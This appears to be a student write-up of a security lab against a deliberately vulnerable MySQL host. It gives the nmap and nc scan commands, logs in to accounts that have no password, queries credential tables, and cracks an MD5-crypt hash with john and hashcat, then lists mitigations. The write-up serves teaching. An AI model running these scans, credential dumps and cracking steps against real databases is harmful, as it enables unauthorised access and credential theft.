 # Lab 2: Cryptographic Attacks - Cracking Weak Password Hashes and Exploiting Poor Authentication in Databases


---

## Objectives

1. Identify and exploit cryptographic weaknesses in database authentication.
2. Perform offline hash cracking on discovered password hashes.
3. Investigate real-world cryptographic failures.
4. Propose secure cryptographic solutions.

---

## Lab Setup

- **Attacker Machine**: Kali Linux
- **Target**: Vulnerable machine running an exposed database service
- **Tools Used**: `nmap`, `nc`, `mysql`, `hashid`, `john`, `hashcat`, `Wireshark`

---

## Task 1: Service Enumeration and Initial Access

### Step-by-Step

```bash
nmap -sS -sV -p- 192.168.1.100
```
- `-sS`: SYN scan (stealthy)
- `-sV`: Service version detection
- `-p-`: Scan all 65535 TCP ports

Discovered port **3306** open → MySQL service detected.

### Alternative
```bash
nc -zv 192.168.1.100 1-1000
```
- `-z`: Scan without sending data
- `-v`: Verbose output

Not stealthy (full TCP handshake), better for basic connectivity check.

### Connection Attempt
```bash
mysql -h 192.168.1.100 -u root
```
- No password prompt = potential misconfiguration.

### Problem Encountered
- Could not connect initially: `Host is not allowed to connect`
- Resolved by modifying `/etc/mysql/my.cnf` on target to allow external IPs.

---

## Task 2: Enumeration of Users and Authentication Weakness

### Enumeration
```sql
SELECT user, host, authentication_string FROM mysql.user;
```

### Findings
- User `admin` had **empty password**.
- User `test` had a weak hash in `authentication_string`.

### Access Attempt
```bash
mysql -h 192.168.1.100 -u admin
```
- Gained access without password.

### Question: Is no password a cryptographic failure?
**Yes.** It completely bypasses cryptographic authentication. A secure system must require password hashing + proper access control.

---

## Task 3: Password Hash Discovery and Hash Identification

### Locate Hash Table
```sql
USE users_db;
SELECT * FROM credentials;
```

Extracted hashes:
```text
$1$eGczHgEg$3gqZB9kPEyoq5QNEa74mv/
```

### Identify Hash
```bash
hashid '$1$eGczHgEg$3gqZB9kPEyoq5QNEa74mv/'
```
- Result: **MD5 Crypt**
- Weak due to collision resistance and speed (fast to brute-force)

---

## Task 4: Offline Hash Cracking

### Using John the Ripper
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
- Cracked password: `admin123`

### Using Hashcat (alternative)
```bash
hashcat -m 500 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
- `-m 500`: MD5 Crypt
- `-a 0`: Dictionary attack

### Password Strength
- Low entropy, common word found in `rockyou.txt` = insecure.

---

## Task 5: Cryptographic Analysis and Mitigation

### Issues Found
- No password on some accounts
- Weak password hashes (MD5 Crypt)
- Potential plaintext transmission

### Solutions
- Enforce strong password policy
- Use secure hash functions (e.g., bcrypt, Argon2)
- Enable SSL/TLS for database communication

### Optional Wireshark Analysis
Captured MySQL login traffic → No SSL → Username and hashed password transmitted in plaintext.

---

## Tools Summary

| Tool       | Use                          |
|------------|-------------------------------|
| `nmap`     | Port scanning & service detection |
| `nc`       | Quick port scan                |
| `mysql`    | Access and enumeration         |
| `hashid`   | Identify hash types            |
| `john`     | Cracking password hashes       |
| `hashcat`  | GPU-based hash cracking        |
| `Wireshark`| Network traffic analysis       |

---

## Conclusion
This lab showed how poor cryptographic practices (empty passwords, weak hashes, no SSL) can easily be exploited. Stronger authentication, hashing, and encrypted communication are essential to secure systems.

---



---



